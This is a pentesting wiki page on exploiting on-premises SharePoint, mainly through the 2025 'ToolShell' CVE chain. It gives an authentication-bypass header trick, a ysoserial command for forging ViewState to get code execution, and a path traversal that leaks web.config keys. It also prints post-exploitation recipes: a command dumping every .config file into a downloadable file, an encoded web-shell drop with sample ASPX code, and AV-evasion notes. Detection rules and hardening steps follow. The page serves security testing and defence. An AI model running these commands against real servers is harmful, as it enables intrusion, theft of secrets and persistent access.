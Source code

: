 # Microsoft SharePoint – Pentesting & Exploitation

{{#include ../../banners/hacktricks-training.md}}

> Microsoft SharePoint (on-premises) is built on top of ASP.NET/IIS.  Most of the classic web attack surface (ViewState, Web.Config, web shells, etc.) is therefore present, but SharePoint also ships with hundreds of proprietary ASPX pages and web services that dramatically enlarge the exposed attack surface.  This page collects practical tricks to enumerate, exploit and persist inside SharePoint environments with emphasis on the 2025 exploit chain disclosed by Unit42 (CVE-2025-49704/49706/53770/53771).

## 1. Quick enumeration

```
# favicon hash and keywords
curl -s https://<host>/_layouts/15/images/SharePointHome.png
curl -s https://<host>/_vti_bin/client.svc | file -  # returns WCF/XSI

# version leakage (often in JS)
curl -s https://<host>/_layouts/15/init.js | grep -i "spPageContextInfo"

# interesting standard paths
/_layouts/15/ToolPane.aspx               # vulnerable page used in 2025 exploit chain
/_vti_bin/Lists.asmx                     # legacy SOAP service
/_catalogs/masterpage/Forms/AllItems.aspx

# enumerate sites & site-collections (requires at least Anonymous)
python3 Office365-ADFSBrute/SharePointURLBrute.py -u https://<host>
```

## 2. 2025 exploit chain (a.k.a. “ToolShell”)

### 2.1 CVE-2025-49704 – Code Injection on ToolPane.aspx

`/_layouts/15/ToolPane.aspx?PageView=…&DefaultWebPartId=<payload>` allows arbitrary *Server-Side Include* code to be injected in the page which is later compiled by ASP.NET.  An attacker can embed C# that executes `Process.Start()` and drop a malicious ViewState.

### 2.2 CVE-2025-49706 – Improper Authentication Bypass

The same page trusts the **X-Forms_BaseUrl** header to determine the site context.  By pointing it to `/_layouts/15/`,  MFA/SSO enforced at the root site can be bypassed **unauthenticated**.

### 2.3 CVE-2025-53770 – Unauthenticated ViewState Deserialization → RCE

Once the attacker controls a gadget in `ToolPane.aspx` they can post an **unsigned** (or MAC-only) `__VIEWSTATE` value that triggers .NET deserialization inside *w3wp.exe* leading to code execution.

If signing is enabled, steal the **ValidationKey/DecryptionKey** from any `web.config` (see 2.4) and forge the payload with *ysoserial.net* or *ysodom*:

```
ysoserial.exe -g TypeConfuseDelegate -f Json.Net -o raw -c "cmd /c whoami" |
    ViewStateGenerator.exe --validation-key <hex> --decryption-key <hex> -o payload.txt
```

For an in-depth explanation on abusing ASP.NET ViewState read:
{{#ref}}
../../pentesting-web/deserialization/exploiting-__viewstate-parameter.md
{{#endref}}

### 2.4 CVE-2025-53771 – Path Traversal / web.config Disclosure

Sending a crafted `Source` parameter to `ToolPane.aspx` (e.g. `../../../../web.config`) returns the targeted file, allowing leakage of:

* `<machineKey validationKey="…" decryptionKey="…">`  ➜ forge ViewState / ASPXAUTH cookies
* connection strings & secrets.

## 3. Post-exploitation recipes observed in the wild

### 3.1 Exfiltrate every *.config* file (variation-1)

```
cmd.exe /c for /R C:\inetpub\wwwroot %i in (*.config) do @type "%i" >> "C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\16\TEMPLATE\LAYOUTS\debug_dev.js"
```

The resulting `debug_dev.js` can be downloaded anonymously and contains **all** sensitive configuration.

### 3.2 Deploy a Base64-encoded ASPX web shell (variation-2)

```
powershell.exe -EncodedCommand <base64>
```

Decoded payload example (shortened):

```csharp
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Security.Cryptography" %>
<script runat="server">
    protected void Page_Load(object sender, EventArgs e){
        Response.Write(MachineKey.ValidationKey);
        // echo secrets or invoke cmd
    }
</script>
```
Written to:

```
C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\16\TEMPLATE\LAYOUTS\spinstall0.aspx
```

The shell exposes endpoints to **read / rotate machine keys** which allows forging ViewState and ASPXAUTH cookies across the farm.

### 3.3 Obfuscated variant (variation-3)

Same shell but:
* dropped under `...\15\TEMPLATE\LAYOUTS\`
* variable names reduced to single letters
* `Thread.Sleep(<ms>)` added for sandbox-evasion & timing-based AV bypass.

## 4. Detection ideas

| Telemetry | Why it is suspicious |
|-----------|----------------------|
| `w3wp.exe → cmd.exe`             | Worker process should rarely spawn shell  |
| `cmd.exe → powershell.exe -EncodedCommand` | Classic lolbin pattern           |
| File events creating `debug_dev.js` or `spinstall0.aspx` | IOCs straight from ToolShell |
| `ProcessCmdLine CONTAINS ToolPane.aspx` (ETW/Module logs) | Public PoCs invoke this page |

Example XDR / Sysmon rule (pseudo-XQL):

```
proc where parent_process_name="w3wp.exe" and process_name in ("cmd.exe","powershell.exe")
```

## 5. Hardening & Mitigation

1. **Patch** – July 2025 security updates fix *all* four CVEs.
2. **Rotate** every `<machineKey>` and `ViewState` secrets after compromise.
3. Remove *LAYOUTS* write permission from `WSS_WPG` & `WSS_ADMIN_WPG` groups.
4. Block external access to `/_layouts/15/ToolPane.aspx` at proxy/WAF level.
5. Enable **ViewStateUserKey**, **MAC enabled**, and custom *EventValidation*.

## Related tricks

* IIS post-exploitation & web.config abuse:  
{{#ref}}
../../network-services-pentesting/pentesting-web/iis-internet-information-services.md
{{#endref}}

## References

- [Unit42 – Active Exploitation of Microsoft SharePoint Vulnerabilities](https://unit42.paloaltonetworks.com/microsoft-sharepoint-cve-2025-49704-cve-2025-49706-cve-2025-53770/)
- [GitHub PoC – ToolShell exploit chain](https://github.com/real-or-not/ToolShell)
- [Microsoft Security Advisory – CVE-2025-49704 / 49706](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2025-49704)
- [Microsoft Security Advisory – CVE-2025-53770 / 53771](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2025-53770)

{{#include ../../banners/hacktricks-training.md}}
